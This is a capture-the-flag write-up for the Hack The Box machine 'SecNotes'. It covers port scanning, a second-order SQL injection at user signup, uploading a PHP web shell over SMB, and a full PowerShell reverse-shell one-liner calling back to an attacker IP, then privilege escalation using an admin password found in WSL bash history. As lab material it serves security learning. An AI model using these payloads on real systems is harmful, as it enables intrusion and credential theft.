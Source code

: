 # HTB - SecNotes

#### Ip: 10.10.10.97
#### Name: SecNotes
#### Rating: Medium

----------------------------------------------------------------------

![SecNotes.png](../assets/secnotes_assets/SecNotes.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:19 CDT
Nmap scan report for 10.10.10.97
Host is up (0.068s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just a few open ports here. Let dig a bit deeper by using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ sudo nmap -sC -sV -T4 10.10.10.97 -p 80,445,8808                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 14:22 CDT
Nmap scan report for 10.10.10.97
Host is up (0.067s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2023-05-16T12:23:03-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-05-16T19:23:04
|_  start_date: N/A
|_clock-skew: mean: 2h20m00s, deviation: 4h02m30s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.15 seconds
```

Checking out the webpage on port 80, we see a simple login page:

![login.png](../assets/secnotes_assets/login.png)

After trying several weak password combos and basic login bypasses via SQL injection, I decided to try creating a new user. But rather than a normal username (admin:password) I tried a second order SQL injection and created a user `' or 1='1` with a password of Password123!. This was an attempt to exploit a SQL injection and get access to the database via a login.

![signup.png](../assets/secnotes_assets/signup.png)

It worked! After logging in as the created 'user' I was able to grab what appear to be a username and password: `tyler:92g!mA8BGjOirkL%OG*&`

Lets try to use these credentials with SMB. 

![smbmap.png](../assets/secnotes_assets/smbmap.png)

Cool, I was able to see which shares I can access as user Tyler. What catches my eye is that I have both read and write permissions to the `new-site` share. Lets check that out:

![smbclient.png](../assets/secnotes_assets/smbclient.png)

Interesting, this appears to be a share containing IIS information. Recalling back to our initial Nmap scan I remembered there were two HTTP pages, one on port 80, and the other on port 8808.

Navigating to http://10.10.10.97:8808/ sure enough we find an IIS landing page.

![iis.png](../assets/secnotes_assets/iis.png)

Lets upload a web shell to the SMB share and see if we can get execution that way. 

### Exploitation

Firstly we need to create a file we'll call shell.php

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ cat >> shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we can upload it to the SMB share using the `put` command:

```text
┌──(ryan㉿kali)-[~/HTB/SecNotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.1 kb/s)
```
Navigating to the file in the browser we can confirm we now have execution on the machine.

![whoami.png](../assets/secnotes_assets/whoami.png)

Lets grab a PowerShell reverse shell from https://www.revshells.com/ and URL encode it:

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.19', 443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

After setting up a netcat listener and issuing the PowerShell one liner as a cmd, we catch a shell back and can grab the user.txt flag:

![user_flag.png](../assets/secnotes_assets/user_flag.png)

### Privilege Escalation

Checking out the contents of `C:\` we see an interesting file, Ubuntu.zip:

![ubuntu.png](../assets/secnotes_assets/ubuntu.png)

This makes me wonder if the machine is running Windows Subsystem for Linux. 

After Googling around a bit I find I can access the Linux system at `AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState/rootfs/root`

And sure enough I find I can access the root directory:

![root_dir.png](../assets/secnotes_assets/root_dir.png)

And interestingly, the `.bash_history` file doesn't appear to be empty, or dumping to `/dev/null`:

Taking a look it appears we have an admin credential stored in memory!

```text
SHELL> cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

Lets use impacket-psexec to login and grab the root.txt flag

![root_flag.png](../assets/secnotes_assets/root_flag.png)

That was a super fun box with some interesting concepts in it. It was especially fun working with Windows Subsystem for Linux because I haven't played with that too much and it was great to learn more about it.

Thanks for following along!

-Ryan

-----------------------------------------------------------
